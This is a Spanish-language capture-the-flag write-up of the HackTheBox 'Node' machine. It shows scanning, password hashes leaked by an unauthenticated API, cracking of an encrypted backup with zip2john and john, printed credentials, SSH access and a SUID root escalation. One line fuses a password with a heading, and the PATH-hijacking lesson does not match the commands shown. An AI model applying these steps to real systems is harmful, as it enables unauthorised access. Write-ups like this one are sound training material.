HackTheBox
Medium
Linux
Node.js
API
MongoDB
SUID
zip2john
Node
API Node.js expone hashes; backup cifrado crackeable; MongoDB para pivotar; SUID binary para escalada root.
cat4clysm
Herramientas utilizadas
nmap
dirb
john
zip2john
netcat
Scanning
root@kali:~$
nmap -sC -sV -p22,3000 -Pn -n 10.10.10.58 -oN targeted
Puerto 3000 - API Node.js
root@kali:~$
dirb http://10.10.10.58:3000 -a "gaogao"


En /api/users encontramos hashes SHA256 de contrasenas:
myP14ceAdm1nAcc0uNT: dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af
# Crackeado: manchester
Backup cifrado - Password cracking


root@kali:~$
cat myplace.backup | base64 -d > myplace
zip2john myplace > myplace.john
john --wordlist=/usr/share/wordlists/rockyou.txt myplace.john
# password: magicword
unzip myplace
mark: 5AYRft73VtFpc84kSSH + MongoDB + SUID
root@kali:~$
ssh mark@10.10.10.58
ps aux | grep tom
root@kali:~$
cat /var/scheduler/app.js

Encontramos un binario SUID para escalada:

root@kali:~$
export HOME=/root
backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 "~"
Lecciones aprendidas
- Las APIs REST que exponen hashes de contrasena sin autenticacion son una vulnerabilidad critica.
- Los backups ZIP cifrados pueden ser crackeados con zip2john + john.
- Los binarios SUID con rutas relativas son vulnerables a PATH hijacking.